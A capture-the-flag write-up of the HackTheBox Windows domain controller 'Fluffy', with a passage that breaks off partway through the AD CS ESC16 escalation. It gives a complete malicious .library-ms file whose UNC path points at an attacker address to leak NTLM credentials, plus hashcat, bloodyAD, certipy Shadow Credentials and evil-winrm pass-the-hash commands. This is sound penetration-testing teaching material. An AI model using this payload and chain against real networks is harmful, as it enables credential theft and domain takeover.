# HackTheBox — Fluffy

**OS:** Windows (Active Directory, Domain Controller)
**Difficulty:** Easy
**Primary themes:** Assumed-breach AD, NTLM hash coercion (CVE-2025-24071), ACL abuse, Shadow Credentials, AD CS ESC16

> **Note on redactions:** all captured hashes, Kerberos tickets, the cracked password, and both flags have been blacked out in the screenshots. The commands and techniques are shown in full so the methodology is reproducible, but no secrets or flags are disclosed.

---

## Attack path at a glance

```
j.fleischman (given creds)
   │  CVE-2025-24071 — poison a writable share, coerce NTLM auth, capture + crack the hash
   ▼
p.agila
   │  ACL abuse — member of "Service Account Managers" → GenericAll over "Service Accounts" group
   ▼
Service Accounts group  →  GenericWrite over winrm_svc / ca_svc / ldap_svc
   │  Shadow Credentials (needs the domain's AD CS / PKINIT to exist)
   ▼
winrm_svc  →  WinRM shell  →  user.txt
   │  ca_svc is a member of Cert Publishers (enrollment rights on the CA)
   ▼
AD CS ESC16 (SID security extension disabled CA-wide)  →  certificate as Administrator
   ▼
Administrator  →  root.txt
```

The whole chain — after the first coercion — abuses **legitimate** Windows/AD features configured too loosely: NTLM auto-authentication, group membership, Kerberos key credentials, and certificate enrollment.

---

## 1. Enumeration

### 1.1 Nmap

The box is a classic Active Directory Domain Controller — DNS, Kerberos, LDAP, SMB, and WinRM are all exposed.



Key takeaways:

- `DC01.fluffy.htb` / domain `fluffy.htb` — add these to `/etc/hosts`.
- **WinRM (5985)** is open → if we obtain a user in *Remote Management Users*, we can get a shell.
- **SMB signing is required** → NTLMv2 relay is off the table, so captured hashes must be **cracked**, not relayed.
- A large **clock skew (~+7h)** is reported. This matters enormously later, because every Kerberos/PKINIT operation will fail with `KRB_AP_ERR_SKEW` until the clock is aligned with the DC.

### 1.2 Setting up variables and hosts

The box ships with credentials for a low-privileged account (`j.fleischman`), an **assumed-breach** scenario. I stored the basics in shell variables and fixed name resolution.



> **Tip:** always keep `/etc/hosts` in sync with the box's current IP. HTB machines get a new IP on every reset, and a stale entry makes tools fail with "No route to host" even though `ping` works — because the tool resolves the FQDN to the old, dead address.

### 1.3 SMB — validate creds and enumerate shares

NTLM authentication does not care about the clock, so we can validate the credentials immediately with **NetExec**.



The account is valid, and the share listing reveals the interesting one: **`IT` — READ,WRITE**. Write access to a share that other users browse is exactly the pre-condition for an NTLM-coercion attack.

### 1.4 Looting the IT share



The share contains KeePass, the *Everything* search tool, and an `Upgrade_Notice.pdf`. The PDF is the hint.

---

## 2. Identifying the vulnerability

The "Upgrade Notice" is an internal IT memo listing several recently disclosed CVEs.





| CVE | Severity |
|---|---|
| CVE-2025-24996 | Critical |
| **CVE-2025-24071** | **Critical** |
| CVE-2025-46785 | High |
| CVE-2025-29968 | High |
| CVE-2025-21193 | Medium |
| CVE-2025-3445 | Low |

Most of these are decoys. The one that matches our exact situation — **write access to a share that gets browsed** — is **CVE-2025-24071**.

### What CVE-2025-24071 does

It is an **NTLM hash disclosure** flaw in Windows File Explorer. A crafted `.library-ms` file contains a **UNC path** (`\\attacker_ip\share`). The moment Explorer *renders or indexes* the folder containing that file — which happens automatically on extraction from an archive, or simply when a user opens the folder — Windows tries to reach the UNC path. Because that's an SMB connection, Windows **automatically sends the browsing user's NTLMv2 authentication** to "prove who it is." No click on the file is required.



On Fluffy, an automated process periodically browses the `IT` share, so the payload fires on its own.

---

## 3. Foothold — coercing and cracking an NTLM hash

### 3.1 Build the payload

A minimal malicious `.library-ms` pointing the `simpleLocation` URL at our `tun0` IP:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo><folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType></templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation><url>\\10.10.14.x\share</url></simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```

### 3.2 Upload it to the writable share



### 3.3 Catch the authentication with Responder



Within a minute or two, the automated browsing process touches the share and its machine authenticates to our rogue SMB server. Responder captures the **NTLMv2-SSP** response for **`p.agila`**.



### 3.4 Crack it offline

Because SMB signing is required, the NTLMv2 response can't be relayed — but it can be cracked. Mode **5600** = NetNTLMv2.

```bash
hashcat -m 5600 agila-hash /usr/share/wordlists/rockyou.txt
```



The password falls to rockyou. We now have valid domain credentials for **`p.agila`**.

> **Note:** what we captured is an NTLMv2 *response* (a challenge/response), not a reusable NT hash. That's why it must be cracked and can't be pass-the-hashed directly.

---

## 4. Post-compromise AD enumeration — BloodHound

Collecting with `p.agila` and reviewing the graph reveals the privilege path.



`p.agila` is a member of **Service Account Managers**, which has **GenericAll** over the **Service Accounts** group.



And the **Service Accounts** group holds **GenericWrite** over three service accounts: `ca_svc`, `ldap_svc`, and `winrm_svc`.

So the plan is:
1. Use the GenericAll to **add `p.agila` into the Service Accounts group**.
2. Inherit GenericWrite over the service accounts.
3. Abuse that write to take one of them over.

### 4.1 Add p.agila to the Service Accounts group

```bash
bloodyAD -u p.agila -p '<password>' -d fluffy.htb --host $DC add groupMember "SERVICE ACCOUNTS" p.agila
```



---

## 5. Service account takeover

### 5.1 Kerberoasting (attempted — did not crack)

All three service accounts already have SPNs, so they're natively Kerberoastable. First I synced the clock to the DC (PKINIT/TGS requests are time-sensitive), then requested the tickets.




However, service-account passwords are strong, and the TGS hash **exhausts** against rockyou:



That's the expected outcome — roasting was worth trying, but it's a dead end here. We pivot to the write permission instead.

### 5.2 Shadow Credentials on winrm_svc

**Shadow Credentials** abuses our **GenericWrite** over the account. Every AD object has an `msDS-KeyCredentialLink` attribute used for passwordless (Windows Hello) logon. With write access we:

1. Generate our own key pair.
2. Write our **public key** into the target's `msDS-KeyCredentialLink`.
3. Authenticate as the target via **PKINIT** using our **private key**.
4. Use **UnPAC-the-hash** to extract the target's **NT hash** from the Kerberos response.

> **Why this needs AD CS:** PKINIT (certificate/key-based Kerberos) only works if the domain has a PKI — i.e. AD CS. AD CS's *existence* is the enabling condition for Shadow Credentials; it is not itself the misconfiguration being exploited here (that comes later, with ESC16).

`certipy shadow auto` automates all of it:

```bash
certipy-ad shadow auto -u p.agila@fluffy.htb -p '<password>' -account winrm_svc -dc-ip $DC
```



> **Gotcha:** on the first attempt this failed with `KDC_ERROR_CLIENT_NOT_TRUSTED (Reserved for PKINIT)`. PKINIT is stricter about clock skew than ordinary Kerberos, and an approximate `faketime "+7 hours"` isn't precise enough. The fix is an **exact** sync (`timedatectl set-ntp false` then `ntpdate <DC>`), after which it works.

### 5.3 user.txt

`winrm_svc` is a Remote Management user, so we pass-the-hash into a WinRM shell with evil-winrm.

```bash
evil-winrm -i $DC -u winrm_svc -H <winrm_svc_NT_hash>
```



**First flag captured.**

---

## 6. Privilege escalation to Domain Admin — AD CS ESC16

### 6.1 Enumerate the CA

Any authenticated user can enumerate AD CS. `certipy find -vulnerable` reads the CA and templates.

```bash
certipy-ad find -u p.agila@fluffy.htb -p '<password>' -dc-ip $DC -dc-host DC01.fluffy.htb -ns $DC -vulnerable -stdout
```



The smoking gun is in the CA configuration:

```
Disabled Extensions : 1.3.6.1.4.1.311.25.2
```

That OID is **`szOID_NTDS_CA_SECURITY_EXT`** — the **SID security extension** — disabled **CA-wide**. This is the definition of **ESC16**: every certificate the CA issues omits the SID binding, so AD cannot verify that a cert's subject actually matches the requesting account.

> **ESC16 vs ESC9:** they're the same root cause — "no SID security extension" — but ESC9 is the setting on a *single template*, while **ESC16 is the setting on the whole CA**. (ESC16 is newer than most training decks, which stop at ESC15.)

Also note `Enroll : Cert Publishers`. The account allowed to enroll is one we can reach.

### 6.2 Why ca_svc is needed

BloodHound showed **`ca_svc` is a member of Cert Publishers** — the group with **enrollment rights** on the CA.

